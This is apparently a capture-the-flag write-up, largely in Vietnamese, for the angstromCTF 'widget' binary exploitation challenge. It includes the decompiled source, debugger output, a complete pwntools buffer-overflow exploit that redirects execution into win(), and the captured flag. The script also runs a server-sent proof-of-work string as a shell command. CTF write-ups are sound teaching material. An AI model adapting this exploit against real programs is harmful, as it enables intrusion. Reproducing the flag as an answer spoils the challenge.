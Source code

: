 # angstromctf - widget

## Source code

```c
int __fastcall win(const char *a1, const char *a2)
{
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  FILE *stream; // [rsp+98h] [rbp-8h]

  if ( strncmp(a1, "14571414c5d9fe9ed0698ef21065d8a6", 0x20uLL) )
    exit(1);
  if ( strncmp(a2, "willy_wonka_widget_factory", 0x1AuLL) )
    exit(1);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Error: missing flag.txt.");
    exit(1);
  }
  fgets(s, 128, stream);
  return puts(s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-24h] BYREF
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  __gid_t rgid; // [rsp+28h] [rbp-8h]
  unsigned int i; // [rsp+2Ch] [rbp-4h]

  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  if ( called )
    exit(1);
  called = 1;
  printf("Amount: ");
  v4 = 0;
  __isoc99_scanf("%d", &v4);
  getchar();
  if ( v4 < 0 )
    exit(1);
  printf("Contents: ");
  read(0, buf, v4);
  for ( i = 0; (int)i < v4; ++i )
  {
    if ( buf[i] == 'n' )
    {
      printf("bad %d\n", i);
      exit(1);
    }
  }
  printf("Your input: ");
  return printf(buf);                
}
```
## Analysis

```java
$ file widget
widget: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e017550bf60e3908f52086421525669f7ca5a934, for GNU/Linux 3.2.0, not stripped
$ checksec widget
[*] '/amstrongctf/widget/widget'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Ta sẽ đi qua một chút về luồng hoạt động của chương trình. Đầu tiên từ hàm main: main sẽ kiểm tra biến called = 0 thì cho qua sau đó lại set called = 1, chưa hiểu để làm gì. Sau đó sẽ yêu cầu mình nhập một số amount gì đó rồi đọc đúng lượng amount này byte nhập từ bàn phím. Cuối cùng kiểm tra và thoát chương trình nếu trong chuỗi ta vừa nhập có ký tự 'n'. 

Nếu nhìn sơ qua thì ta chỉ có thể phát hiện được lỗi fmt ở cuối hàm main, nhưng không =)) hãy nhớ là ta có thể nhập input có độ lớn tùy ý nhờ biến amount. Vì vậy đây có thêm cả lỗi bof. Trong hàm win sẽ kiểm tra 2 chuỗi đúng rồi mới in ra flag cho mình. 

Kịch bản đầu tiên là mình sẽ leak libc ra ngoài rồi tìm các vùng có thể đọc ghi được, nhờ hàm puts để ghi 2 chuỗi của hàm win vào đấy, chạy lại hàm main, overflow cho đến saved rip tới win và lây flag.

Tuy nhiên nó chỉ nằm ở mục lý thuyết thôi =)) khi thực hành thì mình k thể chạy lại hàm main do không thể điều khiển biến called và set nó về 0, do đó chương trình sẽ thoát ngay lập tức. Nhảy qua đó và gọi tới vị trí khác của main cũng không được vì sẽ gặp lỗi xmm0.

Chỉ còn một cách là nhảy qua bước kiểm tra của win. Nhưng nó vẫn có vấn đề

```java
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe12932e30│+0x0000: 0x000000000000000a ("\n"?)   ← $rsp
0x00007ffe12932e38│+0x0008: 0x0000000000401372  →  <main+0> endbr64
0x00007ffe12932e40│+0x0010: 0x0000000112932f20
0x00007ffe12932e48│+0x0018: 0x00007ffe12932f38  →  0x00007ffe12933336  →  "/mnt/c/ctf/amstrongctf/widget/widget_patched"
0x00007ffe12932e50│+0x0020: 0x0000000000000000
0x00007ffe12932e58│+0x0028: 0x0cbffd677e425127
0x00007ffe12932e60│+0x0030: 0x00007ffe12932f38  →  0x00007ffe12933336  →  "/mnt/c/ctf/amstrongctf/widget/widget_patched"
0x00007ffe12932e68│+0x0038: 0x0000000000401372  →  <main+0> endbr64
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401315 <win+127>        lea    rax, [rip+0xd2a]        # 0x402046
     0x40131c <win+134>        mov    rdi, rax
     0x40131f <win+137>        call   0x401180 <fopen@plt>
 →   0x401324 <win+142>        mov    QWORD PTR [rbp-0x8], rax
     0x401328 <win+146>        cmp    QWORD PTR [rbp-0x8], 0x0
     0x40132d <win+151>        jne    0x401348 <win+178>
     0x40132f <win+153>        lea    rax, [rip+0xd19]        # 0x40204f
     0x401336 <win+160>        mov    rdi, rax
     0x401339 <win+163>        call   0x401100 <puts@plt>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "widget_patched", stopped 0x401324 in win (), reason: SIGBUS
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401324 → win()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  c

Program terminated with signal SIGBUS, Bus error.
The program no longer exists.
```
Mình sẽ bị SIGBUS như trên tại <win + 142> do địa chỉ rbp không hợp lệ. Để solve thì chỉ cần tìm địa chỉ nào đấy có thể đọc ghi là được. PIE disable nên địa chỉ của binary sẽ không bị thay đổi

```java
...
0x0000000000404000 0x0000000000405000 0x0000000000004000 rw- /mnt/c/ctf/amstrongctf/widget/widget_patched
...
```
Full script: 

```python
#!/usr/bin/env python3

from pwn import *
import subprocess

context.binary = exe = ELF("./widget_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote('challs.actf.co', 31320)
    return r

def main():
    r = conn()
    r.recvuntil(b"proof of work: ")
    foo = r.recvline().decode()
    resultCapcha = subprocess.getoutput(foo)
    r.sendline(resultCapcha)
    payload = b"A" * (40-8)
    payload += p64(0x0000000000405000)
    payload += p64(exe.sym['win']+117)

    r.sendlineafter(b"Amount: ", b'55')
    r.sendlineafter(b"Contents: ", payload)
    r.interactive()

if __name__ == "__main__":
    main()
```
Có một đoạn dùng để lấy capcha do server nó bắt vậy, để chống brute force chứ k liên quan gì đến chall này hết =))

```java
$ ./solve.py DEBUG
[+] Opening connection to challs.actf.co on port 31320: Done
...
[*] Switching to interactive mode
[DEBUG] Received 0x5c bytes:
    b'Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAA7actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}\n'
    b'\n'
Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAA7actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}

[*] Got EOF while reading in interactive
$
```
`flag: actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}`